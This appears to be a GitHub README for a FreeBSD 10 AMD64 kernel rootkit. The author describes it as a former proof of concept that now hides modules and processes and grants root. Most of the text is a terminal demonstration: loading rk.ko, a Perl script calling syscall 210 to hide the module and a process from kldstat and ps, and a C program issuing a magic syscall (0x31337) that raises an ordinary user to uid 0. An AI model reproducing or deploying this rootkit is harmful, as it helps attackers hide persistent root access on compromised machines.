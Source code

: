 This is a small rootkit for FreeBSD 10 AMD64. Initially, it was just a POC for a rootkit I've written to test some stuff in MSR (Model Specific Registers) a long time ago but now I have added more two features in it. Now it can be used to hide a module or process and escalate the privileges to root. There's an easy way to know if this rootkit is already on the system, you just need to load the module again and the kernel will tell you if the file exists or not.

It has been tested on FreeBSD 10.0-RELEASE AMD64.

Demonstration:

```
$ su
Password:
root@rootkit:/usr/home/andersonc0d3 # kldload rootkit_amd64/rk.ko 
root@rootkit:/usr/home/andersonc0d3 # exit
exit
$ cd rootkit_amd64
$ cat hideme.c
int main(void){
	while(1);
	return 0;
}
$ ./hideme &
$ echo $!
985
$ ps -p 985
PID TT  STAT    TIME COMMAND
985  0  R    0:06.57 ./hideme
$ kldstat
Id Refs Address            Size     Name
 1    6 0xffffffff80200000 16314c0  kernel
 2    1 0xffffffff81a12000 2a53     uhid.ko
 3    1 0xffffffff81a15000 4b0      rk.ko
$ cat exec.pl
#!/usr/bin/perl

use strict;
use warnings;

my $a="rk";
my $b="./hideme";

# syscall(210,1)  # hook the interrupt handler
#
# syscall (210,0) # remove the hook from interrupt handler
#
# call syscall to hide a module
#

syscall(210,3,$a);

# call syscall to hide a process
#
#
syscall(210,4,$b);
$ perl exec.pl
$ ps -p 985
PID TT  STAT TIME COMMAND
$ kldstat
Id Refs Address            Size     Name
 1    6 0xffffffff80200000 16314c0  kernel
 2    1 0xffffffff81a12000 2a53     uhid.ko
$ id
uid=1001(andersonc0d3) gid=1001(andersonc0d3) groups=1001(andersonc0d3),0(wheel)
$ cat getroot.c
#include <stdio.h>
#include <stdlib.h>

int main(void){
	
	asm("mov $0x31337,%rax");	
	asm("syscall");

	return 0;
}
$ ./getroot
uid: 1001
$ id
uid=0(root) gid=0(wheel) groups=0(wheel)
$ su
root@rootkit:/usr/home/andersonc0d3/rootkit_amd64 #
```
